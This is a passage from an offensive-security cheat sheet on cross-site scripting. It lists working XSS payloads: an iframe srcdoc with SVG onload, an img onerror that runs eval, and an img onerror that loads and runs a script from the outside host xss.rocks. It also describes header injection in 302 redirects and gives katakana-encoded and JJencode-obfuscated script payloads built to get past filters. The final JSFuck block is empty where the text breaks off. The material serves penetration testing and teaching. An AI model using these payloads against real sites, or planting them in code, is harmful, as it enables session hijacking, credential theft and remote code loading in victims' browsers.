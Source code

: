 ```markup
<iframe src=""/srcdoc='<svg onload=alert(1)>'>
<img/id="alert('XSS')\"/alt=\"/\"src=\"/\"onerror=eval(id)>
<img src=1 onerror="s=document.createElement('script');s.src='http://xss.rocks/xss.js';document.body.appendChild(s);"
```

### XSS with header injection in a 302 response

If you find that you can **inject headers in a 302 Redirect response** you could try to **make the browser execute arbitrary JavaScript**. This is **not trivial** as modern browsers do not interpret the HTTP response body if the HTTP response status code is a 302, so just a cross-site scripting payload is useless.

In [**this report**](https://www.gremwell.com/firefox-xss-302) and [**this one**](https://www.hahwul.com/2020/10/03/forcing-http-redirect-xss/) you can read how you can test several protocols inside the Location header and see if any of them allows the browser to inspect and execute the XSS payload inside the body.  
Past known protocols: `mailto://`, `//x:1/`, `ws://`, `wss://`, _empty Location header_, `resource://`.

### Obfuscation & Advanced Bypass

* [https://github.com/aemkei/katakana.js](https://github.com/aemkei/katakana.js)
* [https://ooze.ninja/javascript/poisonjs](https://ooze.ninja/javascript/poisonjs) 
* [https://javascriptobfuscator.herokuapp.com/](https://javascriptobfuscator.herokuapp.com/) 
* [https://skalman.github.io/UglifyJS-online/](https://skalman.github.io/UglifyJS-online/) 
* [http://www.jsfuck.com/](http://www.jsfuck.com/)
* More sofisticated JSFuck: [https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce](https://medium.com/@Master_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce)
* [http://utf-8.jp/public/jjencode.html](http://utf-8.jp/public/jjencode.html)

```javascript
<script>([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()</script>
```

```javascript
//JJencode
<script>$=~[];$={___:++$,$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$:({}+"")[$],$_$:($[$]+"")[$],_$:++$,$_:(!""+"")[$],$__:++$,$_$:++$,$__:({}+"")[$],$_:++$,$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$=($.$+"")[$.__$])+((!$)+"")[$._$]+($.__=$.$_[$.$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$=$.$+(!""+"")[$._$]+$.__+$._+$.$+$.$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$+"\""+$.$_$_+(![]+"")[$._$_]+$.$_+"\\"+$.__$+$.$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
```

```javascript
//JSFuck
```